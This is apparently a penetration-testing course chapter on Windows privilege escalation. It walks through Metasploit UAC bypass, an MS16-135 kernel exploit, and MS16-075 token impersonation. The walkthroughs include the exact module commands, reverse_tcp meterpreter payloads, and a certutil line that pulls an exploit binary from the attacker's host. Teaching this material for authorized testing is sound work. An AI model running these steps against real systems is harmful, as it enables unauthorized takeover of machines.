



## Before You Begin

to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux

- Parrot OS

The privilege escalation techniques used in this book were tested in the following versions of Windows:

- Windows 7

- Windows 10

The following is a list of recommended technical prerequisites that you will need  to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Privilege Escalation Techniques

Privilege Escalation consists of techniques that adversaries use to gain higher-level permissions on a system or network. Adversaries can often enter and explore a network with unprivileged access but require elevated permissions to follow through on their objectives. Common approaches are to take advantage of system weaknesses, misconfigurations, and vulnerabilities. Examples of elevated access include:

- SYSTEM/root level

- Local administrator

- A user account with admin-like access

- User accounts with access to a specific system or performs a specific function



The following is a list of key techniques and sub techniques that we will be exploring:

- UAC Bypass

- Token Impersonation

- Kernel Exploits

## Scenario

Our objective is to elevate our privileges on Windows target systems by leveraging various privilege escalation techniques.

Note: The techniques used in this document were performed through a meterpreter session, primarily because Empire does not provide users with the ability to transfer exploit code or binaries or perform manual tests.

## Privilege Escalation Techniques We Will Be Utilizing

1. Bypassing UAC - Adversaries may bypass UAC mechanisms to elevate process privileges on the system. Windows User Account Control (UAC) allows a program to elevate its privileges (tracked as integrity levels ranging from low to high) to perform a task under administrator-level permissions, possibly by prompting the user for confirmation.

1. Kernel Exploits - Adversaries may exploit software vulnerabilities in an attempt to elevate privileges. The exploitation of a software vulnerability occurs when an adversary takes advantage of a programming error in a program, service, or within the operating system software or the kernel itself to execute adversary-controlled code.

1. Token Impersonation - Adversaries may duplicate then impersonate another user's token to escalate privileges and bypass access controls. An adversary can create a new access token that duplicates an existing token using DuplicateToken(Ex). The token can then be used with ImpersonateLoggedOnUser to allow the calling thread to impersonate a logged-on user's security context.

## Bypassing UAC

We can bypass UAC mechanisms to elevate process privileges on the target system. The Windows User Account Control (UAC) allows a program to elevate its privileges (tracked as integrity levels ranging from low to high) to perform a task under administrator-level permissions, possibly by prompting the user for confirmation.

Metasploit has various UAC privilege escalation modules that we can utilize to elevate our privileges.

The following procedures outline the process of elevating privileges by bypassing UAC on a Windows 10 system:

1. The first step in this process is to obtain a meterpreter session on the target system, after which, you will need to put your meterpreter session in the background. This can be done by running the following command in meterpreter:

        background

1. We can now search for UAC modules by running the following command:

        search bypassuac

    As highlighted in the following screenshot, we will be utilizing the “bypassuac_injection_winsxs” module as it is the only module that works on Windows 10 systems.

    

1. We can now load the bypass UAC module by running the following command:

        use module exploit/windows/local/bypassuac_injection_winsxs

1. After loading the module, we will need to configure the module options, this can be done by running the following commands:

        set payload windows/x64/meterpreter/reverse_tcp
        set target Windows x64
        set SESSION <SESSION-ID>

1. After configuring the module options, we can now execute the module by running the following command:

        run

1. If successful, the module will send the meterpreter stage to the target and you should receive an elevated meterpreter session as shown in the following screenshot.

    

1. We can confirm that we have an elevated session by listing out the Windows privileges for our current user, this can be done by running the following command in meterpreter:

        getprivs

    

    As shown in the preceding screenshot, this meterpreter session has administrative privileges and we can migrate to an NT AUTHORITY/SYSTEM process.

## Windows Kernel Exploits

We can exploit vulnerabilities in the Windows NT kernel in an attempt to elevate our privileges. The exploitation of a vulnerability in the Windows kernel occurs when an adversary takes advantage of a programming error in the kernel to execute adversary-controlled code.

We can begin the kernel exploitation process by taking a look at how to identify and transfer kernel exploits onto our target system. For this section, our target system will be running Windows 7. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session:

1. The first step is to scan and identify potential kernel vulnerabilities. This can be done through the use of the Windows-Exploit-Suggester tool. The Windows-Exploit-Suggester script can be downloaded from this link: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

1. In order to use the Windows-Exploit-Suggester tool, you will need to run the following commands:

        ./windows-exploit-suggester.py --update

    The preceding command will download the vulnerability database and save it as a .xlsx file. We will be utilizing this vulnerability database to identify vulnerabilities on the target system.

1. The next step will involve enumerating the target operating system information and configuration, this can be done by running the following command in a Windows command shell:

        systeminfo

    As shown in the following screenshot, this command will output important operating system information and configuration data.

    

    We will need to copy this information and paste it into a file called “systeminfo.txt”. We will be using this file to identify Kernel exploits with the Windows-Exploit-Suggester.

1. We can now utilize the Windows-Exploit-Suggester to identify vulnerabilities for our target system, this can be done by running the following command on Kali:

        ./windows-exploit-suggester.py --database <DATABASE.XLSX> --systeminfo <SYSTEMINFO.TXT>

    As shown in the following screenshot, Windows-Exploit-Suggester will display a list of vulnerabilities that we can exploit on the target system in order to elevate our privileges.

    

1. It is always recommended to use the first exploit recommended by the Windows-Exploit-Suggester. In this case, we will start off with the MS16-135 kernel exploit. We will need to determine more information about the exploit and how it should be used. This can be done  by performing a quick Google search as highlighted in the following screenshot:

    

    The Google search reveals a GitHub repository that contains information regarding the exploit, the exploit source code, and how it should be used.

    It is always recommended to analyze the source code to ensure that it is not malicious and works as intended to make any additional modifications required. In this case, we will be using the prebuilt exploit as shown in the following screenshot.

    

    After downloading the pre-built exploit executable, we will need to transfer it over to the target system.

1. We can now transfer the exploit executable to the target system, this can be done by starting a local web server on the Kali VM with the SimpleHTTPServer Python module:

        sudo python -m SimpleHTTPServer 80

1. In order to transfer the exploit executable onto the target system, we can utilize the certutil utility. This can be done by running the following command on the target system:

        certutil -urlcache -f http://<KALI-IP>/41015.exe exploit.exe

1. We can now run the exploit executable by running the following command on the target system:

        .\exploit.exe

    As highlighted in the following screenshot, the exploit executable requires the user to specify the target operating system, in our case the target operating system is Windows 7, as a result, we can execute the exploit by running the following command:

        .\exploit.exe 7

    After running the exploit with the operating system specified, it will take a few seconds to complete, after which we should have an elevated shell with NT AUTHORITY/SYSTEM privileges as shown in the following screenshot.

    

## Token Impersonation

Adversaries may duplicate then impersonate another user's token to escalate privileges and bypass access controls. An adversary can create a new access token that duplicates an existing token using DuplicateToken(Ex). The token can then be used with ImpersonateLoggedOnUser to allow the calling thread to impersonate a logged-on user's security context.

In this section, we will be exploring the process of performing a token impersonation attack.

For this section, our target system will be running Windows 7. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

We can begin the process by following the outlined procedures:

1. The first step will involve identifying any potential vulnerabilities that can be exploited through the Potato attack. This can be done through the use of the Windows Exploit Suggester script:

        ./windows-exploit-suggester.py --database <DATABASE.XLSX> --systeminfo <SYSTEMINFO.TXT>

    As highlighted in the following screenshot, we are able to identify a token impersonation vulnerability.

    

1. Researching the MS16-075 vulnerability reveals a Metasploit module that can automate the token impersonation attack.

1. We can load the module in Metasploit by running the following command:

        use exploit/windows/local/ms16_075_reflection

1. After loading the module, you will need to configure the module options, this can be done by running the following commands:

        set payload /windows/x64/meterpreter/reverse_tcp
        set SESSION <SESSION-ID>

1. We can now run the module by running the following command:

        run

    If the module runs successfully, you should receive a new meterpreter session as shown in the screenshot below.

    

1. The next step involves performing the impersonation process and can be performed by loading the incognito module on meterpreter. This can be done by running the following command:

        load incognito

1. We can now use incognito to list the available tokens available for impersonation, this can be done by running the following command:

        list_tokens -u

    As shown in the following screenshot, we are able to identify the “NT AUTHORITY\SYSTEM” token.

    

1. We can impersonate the “NT AUTHORITY\SYSTEM” token by running the following command:

        impersonate_token “NT AUTHORITY\SYSTEM”

1. We can now verify that we have elevated our privileges by running the following command in meterpreter:

        getuid

    As shown in the following screenshot, we have been able to successfully elevate our privileges.

    